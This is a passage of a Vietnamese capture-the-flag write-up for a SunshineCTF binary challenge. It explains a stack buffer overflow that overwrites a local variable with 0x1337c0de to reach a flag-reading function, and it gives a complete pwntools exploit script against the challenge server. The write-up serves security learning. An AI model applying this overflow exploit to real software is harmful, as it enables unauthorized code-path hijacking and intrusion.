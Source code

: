         ```
        0x0000000000001381 <+127>:   cmpl   $0x1337c0de,-0x4(%rbp)
        0x0000000000001388 <+134>:   je     0x139b <vuln+153>
        ...
        0x00000000000013af <+173>:   call   0x1209 <read_flag>
        
        ```
        
    - **Xây dựng chiến lược:** Thay vì thực hiện một cuộc tấn công ghi đè địa chỉ trả về phức tạp (cần vượt qua PIE), chúng ta có thể chọn một con đường đơn giản hơn nhiều: chỉ cần ghi đè lên biến cục bộ này.
        - Khoảng cách từ đầu bộ đệm (`0x50`) đến biến mục tiêu (`0x4`) là: `0x50 - 0x4 = 0x4C`, tức **76 bytes**.
4. **Quy trình giải mã:**
    - Tạo một payload bắt đầu với 76 bytes ký tự đệm (padding).
    - Nối tiếp payload với giá trị `0x1337c0de`, được đóng gói ở dạng little-endian 32-bit (`p32(0x1337c0de)`).
    - Kết nối đến server của thử thách.
    - Gửi payload khi được yêu cầu nhập mật khẩu.
    - Chương trình sẽ ghi đè giá trị thành công, vượt qua phép so sánh và thực thi `read_flag`, trả về flag cho chúng ta.

---

## Kịch bản giải mã (Exploit)

Kịch bản Python sau sử dụng thư viện `pwntools` để tự động hóa hoàn toàn quá trình khai thác.

```python
# solve.py
# Tác giả: foqs & Gemini
# Để chạy: python3 solve.py

from pwn import *

# Thiết lập context cho tệp nhị phân nếu cần phân tích sâu hơn
# context.binary = elf = ELF('./miami')

# Kết nối đến server của thử thách
# Để test cục bộ, sử dụng: p = process('./miami')
p = remote('chal.sunshinectf.games', 25601)

# Tính toán offset từ đầu buffer đến biến mục tiêu
# buffer starts at rbp-0x50
# target variable is at rbp-0x4
# offset = 0x50 - 0x4 = 0x4c = 76
padding_length = 76
padding = b'A' * padding_length

# Giá trị cần ghi đè để thỏa mãn điều kiện so sánh
value_to_overwrite = p32(0x1337c0de)

# Xây dựng payload cuối cùng
payload = padding + value_to_overwrite

log.info(f"Đã xây dựng payload: {payload}")

# Gửi payload sau khi nhận được yêu cầu nhập mật khẩu
p.sendlineafter(b"Enter Dexter's password: ", payload)

# Chuyển sang chế độ tương tác để nhận flag và các output khác
p.interactive()

```
